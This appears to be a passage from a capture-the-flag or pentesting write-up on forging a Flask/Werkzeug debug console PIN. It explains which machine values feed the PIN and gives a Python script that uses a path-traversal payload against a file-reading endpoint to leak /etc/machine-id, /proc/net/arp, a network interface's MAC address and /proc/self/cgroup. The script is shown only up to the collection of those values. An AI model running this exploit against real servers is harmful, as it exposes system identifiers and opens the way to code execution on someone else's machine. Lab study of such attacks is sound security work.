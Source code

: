 #### `private_bits`:
- `uuid.getnode()`: Fetches the MAC address of the current machine, with `str(uuid.getnode())` translating it into a decimal format.

To determine the server's MAC address, one must identify the active network interface used by the app (e.g., ens3). In cases of uncertainty, leak `/proc/net/arp` to find the device ID, then extract the MAC address from `/sys/class/net/<device id>/address`.

Conversion of a hexadecimal MAC address to decimal can be performed using Python.

### Example:

```python
# Example MAC address: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

- `get_machine_id()`: Concatenates data from `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` post the last slash (`/`).


### Generating Debug Pin:

```
import requests 
import time
import re
import hashlib
from itertools import chain


payload1 = 'etc/machine-id'
payload2 = 'proc/net/arp'
payload3 = 'sys/class/net/'
url = 'http://localhost:7777/readfile?file=....//...//...//...//...//' #change your ip to challenge lab ip
payload4 = 'proc/self/cgroup'

def get_mac_adderess():
    r = requests.get(url+payload2)
    #print(r.text)
    pattern = r'\b(?:[0-9]{1,3}\.){3}[0-9]{1,3}\s+\S+\s+\S+\s+\S+\s+\S+\s+(\S+)'
    devices = re.findall(pattern,r.text)
   # print(f'Devices = '+ str(devices))
    payload3 = f'sys/class/net/{devices[0]}/address'
    r = requests.get(url+payload3)
    mac = r.text
    payload = re.sub(":","", mac)
    hex_macaddress = int("0x" + payload,16)
    #print(hex_macaddress)
    return hex_macaddress
    

def get_machine_id():
    r = requests.get(url + payload1)
    machine_id = r.text.rstrip('\n')
    # print("Actual:",machine_id)
    r = requests.get(url + payload4)
    x = r.text
    extracted_string = x.split(":")[-1]
    cgroup = extracted_string.split("/")[-1].rstrip('\n')
    appended = machine_id + cgroup
    # Remove spaces from the appended value
    appended = appended.replace(" ", "")
    return appended
```